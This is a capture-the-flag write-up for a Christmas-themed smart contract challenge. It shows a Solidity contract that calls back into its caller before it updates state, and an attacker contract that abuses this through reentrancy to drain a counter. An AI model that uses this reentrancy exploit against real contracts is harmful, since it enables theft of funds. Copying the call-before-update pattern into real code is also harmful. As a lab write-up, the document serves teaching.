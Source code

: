 # 21 - Re-Entry to Nice List

## Description

The elves are going web3! Also, Santa needs money to produce the toys (did you really think anything is for free?!). In
order not be a boomer and to raise more than the ConstitutionDAO, he tasked his elves with creating a smart contract for
people to buy into the nice list.

Unfortunately, the elves weren't up to the task and only were able to put the deeds counter on to the blockchain. You
have to submit one good deed per month to get on to the nice list.

Unluckily for you, Christmas is in a few days and you can only submit 1 deed per month (or in blockchain terms: every
172800 blocks). Or can you get your counter to 0 in time?

## Solution

For this challenge we are provided a website to deploy our own smart contract. We can decompile the contract and take a
look at its source:

```
contract SantasList {
    mapping(address => uint256) naughtyList;
    mapping(address => uint256) nextGoodDeedAfter;

    function start() public {
        naughtyList[tx.origin] = 12;
        nextGoodDeedAfter[tx.origin] = 0;
    }

    function goodDeed() public {
        require(
            nextGoodDeedAfter[tx.origin] < block.number,
            "You have already done your good deed this month"
        );
        if (naughtyList[tx.origin] > 0) {
            naughtyList[tx.origin] = naughtyList[tx.origin] - 1;
            (bool success, ) = msg.sender.call("");
            require(success, "Call failed");
            nextGoodDeedAfter[tx.origin] = block.number + 172800;
        }
    }

    function goodDeedsLeft(address _address) public view returns (uint256) {
        return naughtyList[_address];
    }

    function isNice(address _address) public view returns (bool) {
        if(nextGoodDeedAfter[_address] > 0 && naughtyList[_address] == 0) {
            return true;
        } else {
            return false;
        }
    }
}
```

We want `isNice` to return `true` for us and to do so we have to decrease the `naughtyLIst` to `0`. At first it might
look like we can only decrease the counter by one every `172800` blocks which roughly equals a month. We can see that
the function `goodDeed` calls the caller before `nextGoodDeedAfter` is written. This can be used to call `goodDeed`
multiple times before `nextGoodDeedAfter` is ever written. To do so we write our own contract:

```
contract SantasList {
  function goodDeed() public {}
}

contract MyContract {
   function hack() public {
       SantasList santa = SantasList(0x73D81979766A4076e73Da18786df983A80a86212);
       santa.goodDeed();
  }
  
  fallback() external payable {
        SantasList santa = SantasList(0x73D81979766A4076e73Da18786df983A80a86212);
        santa.goodDeed();
  }
}
```

This contract calls the `goodDeed` of `SantasList` and uses the fallback function to call it again. With this the
`naughtyList` counter gets set to `0` before the check can fail.

